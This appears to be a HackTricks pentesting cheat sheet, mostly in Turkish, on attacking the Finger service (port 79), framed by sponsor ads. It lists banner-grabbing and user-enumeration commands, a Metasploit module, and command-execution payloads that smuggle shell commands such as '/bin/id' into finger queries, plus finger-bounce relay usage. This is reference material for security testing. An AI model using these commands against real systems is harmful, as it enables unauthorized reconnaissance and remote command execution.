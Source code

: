 # 79 - Pentesting Finger

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Get a hacker's perspective on your web apps, network, and cloud

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Basic Info**

**Finger** programı/hizmeti, bilgisayar kullanıcıları hakkında detaylar almak için kullanılır. Genellikle sağlanan bilgiler **kullanıcının giriş adı, tam adı** ve bazı durumlarda ek detayları içerir. Bu ek detaylar, ofis konumu ve telefon numarasını (varsa), kullanıcının giriş yaptığı zamanı, hareketsizlik süresini (boşta kalma süresi), kullanıcının en son okuduğu e-posta zamanını ve kullanıcının plan ve proje dosyalarının içeriğini kapsayabilir.

**Varsayılan port:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Numaralandırma**

### **Afiş Yakalama/Temel Bağlantı**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Kullanıcı numaralandırma**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Alternatif olarak, [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) sitesinden **finger-user-enum** kullanabilirsiniz, bazı örnekler:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap, varsayılan betikleri kullanarak bir betik çalıştırır**

### Metasploit, Nmap'tan daha fazla hile kullanır
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## Komut yürütme
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Bir sistemi finger relay olarak kullanın](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Bir hacker'ın web uygulamalarınız, ağınız ve bulut üzerindeki bakış açısını edinin

**Gerçek iş etkisi olan kritik, istismar edilebilir güvenlik açıklarını bulun ve raporlayın.** Saldırı yüzeyini haritalamak, ayrıcalıkları artırmanıza izin veren güvenlik sorunlarını bulmak ve temel kanıtları toplamak için otomatik istismarları kullanmak için 20'den fazla özel aracımızı kullanın, böylece sıkı çalışmanızı ikna edici raporlara dönüştürebilirsiniz.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
